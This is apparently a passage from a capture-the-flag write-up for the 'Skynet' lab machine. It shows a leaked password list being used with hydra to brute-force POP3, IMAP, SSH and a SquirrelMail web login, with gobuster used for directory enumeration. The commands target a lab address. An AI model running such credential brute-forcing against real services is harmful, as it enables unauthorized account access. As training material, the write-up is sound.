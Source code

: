Opening logs gives the following text:

```txt
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

This could mean that the passwords may have been logged in the `logs` folder

After collecting the log files in the directory, `log1.txt` contains a list of strings, which are most likely passwords. This gives us a wordlist to use to brute force into the different servers using `milesdyson` as a user

Firstly POP3: `hydra -l milesdyson -P logs/log1.txt -s 110 10.10.97.28 pop3`

This doesn't work using plaintext authentication

Next IMAP: `hydra -l milesdyson -P logs/log1.txt -s 143 10.10.97.28 imap`

No success

Finally SSH: `hydra -l milesdyson -P logs/log1.txt 10.10.97.28 ssh`

Also no success

Since none of the services can be logged into yet, I will perform directory enumeration with gobuster on the HTTP server

```bash
gobuster dir -u 10.10.97.28 -w ~/wordlists/dirbuster/directory-list-2.3-medium.txt -o gb_root.ouadmin
```

The result gives us multiple subdomains

![alt text](./images/skynet/img_5.png)

The most interesting ones are `/admin`, `/ai`, `/config`, and `/squirrelmail`. The first three are forbidden due to access permissions, but `/squirrelmail` shows a login page for a mail server. The next step is to brute force the password for the potential user `milesdyson`.

The first step is to capture the POST request for the login page in Burp Suite.

The POST request is `/squirrelmail/src/redirect.php`

The body is `login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1`

The 'login failed' message is `Unknown user or password incorrect.`

This will allow us to create the command for hydra:

```bash
hydra -l milesdyson -P logs/log1.txt -s 80 10.10.97.28 http-post-form '/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.' -o hydra_http.out
```
